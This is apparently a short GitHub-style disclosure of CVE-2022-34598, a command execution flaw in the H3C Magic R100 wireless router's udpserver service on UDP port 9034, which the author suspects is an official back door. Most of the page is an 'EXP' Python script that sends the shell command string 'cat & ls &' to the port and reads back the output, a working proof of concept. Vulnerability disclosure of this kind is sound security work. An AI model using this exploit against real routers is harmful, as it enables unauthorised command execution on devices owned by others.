


# H3C magicr100 has a Command Execution Vulnerability
# CVE-2022-34598


## Firmware download

 https://download.h3c.com.cn/download.do?id=3342938


## Vulnerability description

H3C magic R100 is a wireless router. H3C magic R100 has a command execution vulnerability in udpserver

The updserver service has opened the 9034 port suspected to be the official back door





## EXP

```python
#/usr/bin/env python
#-*-coding:utf-8-*-

from socket import *

HOST = '0.0.0.0' 
PORT = 9034
BUFSIZ = 1024
ADDR = (HOST, PORT)

udpCliendSocket = socket(AF_INET, SOCK_DGRAM)
data = "cat & ls &"
udpCliendSocket.sendto(data, ADDR)
data, ADDR = udpCliendSocket.recvfrom(BUFSIZ)
udpCliendSocket.close()

```

